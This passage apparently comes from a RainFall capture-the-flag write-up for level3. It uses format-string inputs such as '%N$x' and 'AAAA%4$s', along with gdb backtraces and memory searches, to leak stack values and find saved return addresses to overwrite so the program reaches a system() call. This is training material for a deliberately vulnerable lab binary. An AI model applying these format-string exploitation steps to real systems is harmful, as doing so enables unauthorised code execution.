 ```bash

(gdb) find $esp,0xbfffffff,0x41414141
0xbffff490
1 pattern found.
```

Now let's try to find saved eip from main() for fun:

```bash
level3@RainFall:~$ for i in $(seq 1 10); do echo -n "$i: "; echo -n -e "%$i\$x" | ./level3; echo; done;
1: 200
2: b7fd1ac0
3: b7ff37d0
4: 2434255c
5: b7e20078
6: 1
7: b7fef305
8: bffff518
9: b7fde2d4
10: b7fde334

# Not there ... let's try with a bigger range
level3@RainFall:~$ (for i in $(seq 1 500); do echo -n "$i: "; echo -n -e "%$i\$x" | ./level3; echo; done;) | grep 8048525
135: 8048525
```

To make the program run the if() condition containing the system() call, we'll try to rewrite a saved EIP pointer,

To do this we can try to make the program segfault, look at the backtrace (where function calls happened) and try to rewrite these addresses in the memory of the program

```bash
level3@RainFall:~$ echo -n -e 'AAAA%4$x'> /tmp/input ; cat /tmp/input  | ./level3
AAAA41414141

level3@RainFall:~$ echo -n -e 'AAAA%4$s' > /tmp/input

level3@RainFall:~$ gdb ./level3
...
(gdb) run < /tmp/input
Starting program: /home/user/level3/level3 < /tmp/input

Program received signal SIGSEGV, Segmentation fault.
0xb7e70003 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) bt
#0  0xb7e70003 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
#1  0xb7e7887f in printf () from /lib/i386-linux-gnu/libc.so.6
#2  0x080484da in v ()
#3  0x08048525 in main ()

(gdb) find $esp,0xbfffffff,0xb7e70003
Pattern not found.

(gdb) find $esp,0xbfffffff,0xb7e7887f
0xbffff45c
1 pattern found.

(gdb) find $esp,0xbfffffff,0x080484da
0xbffff47c
1 pattern found.

(gdb) find $esp,0xbfffffff,0x08048525
0xbffff69c
```